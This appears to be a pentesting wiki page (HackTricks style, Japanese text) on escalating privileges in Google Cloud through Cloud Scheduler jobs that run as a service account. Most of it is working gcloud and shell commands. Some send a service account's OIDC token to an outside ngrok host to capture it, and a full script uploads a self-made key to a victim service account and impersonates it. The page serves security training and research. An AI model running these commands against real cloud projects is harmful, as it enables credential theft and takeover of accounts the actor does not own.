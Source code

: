 # GCP - Cloud Scheduler Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Scheduler

More information in:

{{#ref}}
../gcp-services/gcp-cloud-scheduler-enum.md
{{#endref}}

### `cloudscheduler.jobs.create` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

これらの権限を持つ攻撃者は、**Cloud Scheduler**を利用して**特定のサービスアカウントとしてcronジョブを認証**することができます。HTTP POSTリクエストを作成することで、攻撃者はストレージバケットの作成などのアクションを、サービスアカウントのアイデンティティの下で実行するようにスケジュールします。この方法は、**スケジューラーが`*.googleapis.com`エンドポイントをターゲットにし、リクエストを認証する能力を利用**しており、攻撃者は単純な`gcloud`コマンドを使用してGoogle APIエンドポイントを直接操作することができます。

- **OAuthトークンヘッダーを使用して`googleapis.com`経由で任意のGoogle APIにアクセス**

新しいストレージバケットを作成:
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com --headers "Content-Type=application/json" --location us-central1
```
権限を昇格させるために、**攻撃者は指定されたサービスアカウントを偽装して、目的のAPIをターゲットにしたHTTPリクエストを作成するだけです。**

- **OIDCサービスアカウントトークンを抽出する**
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
HTTPレスポンスを確認する必要がある場合は、**実行のログを確認するだけで済みます**。

### `cloudscheduler.jobs.update` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

前のシナリオと同様に、**既に作成されたスケジューラーを更新してトークンを盗むか、アクションを実行することが可能です**。例えば：
```bash
gcloud scheduler jobs update http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
別の例として、プライベートキーをSAにアップロードし、それを偽装する方法：
```bash
# Generate local private key
openssl req -x509 -nodes -newkey rsa:2048 -days 365 \
-keyout /tmp/private_key.pem \
-out /tmp/public_key.pem \
-subj "/CN=unused"

# Remove last new line character of the public key
file_size=$(wc -c < /tmp/public_key.pem)
new_size=$((file_size - 1))
truncate -s $new_size /tmp/public_key.pem

# Update scheduler to upload the key to a SA
## For macOS: REMOVE THE `-w 0` FROM THE BASE64 COMMAND
gcloud scheduler jobs update http scheduler_lab_1 \
--schedule='* * * * *' \
--uri="https://iam.googleapis.com/v1/projects/$PROJECT_ID/serviceAccounts/victim@$PROJECT_ID.iam.gserviceaccount.com/keys:upload?alt=json" \
--message-body="{\"publicKeyData\": \"$(cat /tmp/public_key.pem | base64 -w 0)\"}" \
--update-headers "Content-Type=application/json" \
--location us-central1 \
--oauth-service-account-email privileged@$PROJECT_ID.iam.gserviceaccount.com

# Wait 1 min
sleep 60

# Check the logs to check it worked
gcloud logging read 'resource.type="cloud_scheduler_job" AND resource.labels.job_id="scheduler_lab_1" AND resource.labels.location="us-central1"
jsonPayload.@type="type.googleapis.com/google.cloud.scheduler.logging.AttemptFinished"' --limit 10 --project <project-id> --format=json

## If any  '"status": 200'  it means it worked!
## Note that this scheduler will be executed every minute and after a key has been created, all the other attempts to submit the same key will throw a: "status": 400

# Build the json to contact the SA
## Get privatekey in json format
file_content=$(<"/tmp/private_key.pem")
private_key_json=$(jq -Rn --arg str "$file_content" '$str')

## Get ID of the generated key
gcloud iam service-accounts keys list --iam-account=victim@$PROJECT_ID.iam.gserviceaccount.com

# Create the json in a file
## NOTE that you need to export your project-id in the env var PROJECT_ID
## and that this script is expecting the key ID to be the first one (check the `head`)
export PROJECT_ID=...
cat > /tmp/lab.json <<EOF
{
"type": "service_account",
"project_id": "$PROJECT_ID",
"private_key_id": "$(gcloud iam service-accounts keys list --iam-account=scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | cut -d " " -f 1 | grep -v KEY_ID | head -n 1)",
"private_key": $private_key_json,
"client_email": "scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com",
"client_id": "$(gcloud iam service-accounts describe scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | grep oauth2ClientId | cut -d "'" -f 2)",
"auth_uri": "https://accounts.google.com/o/oauth2/auth",
"token_uri": "https://oauth2.googleapis.com/token",
"auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
"client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/scheduler-lab-1-target%40$PROJECT_ID.iam.gserviceaccount.com",
"universe_domain": "googleapis.com"
}
EOF

# Activate the generated key
gcloud auth activate-service-account --key-file=/tmp/lab.json
```
## 参考文献

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
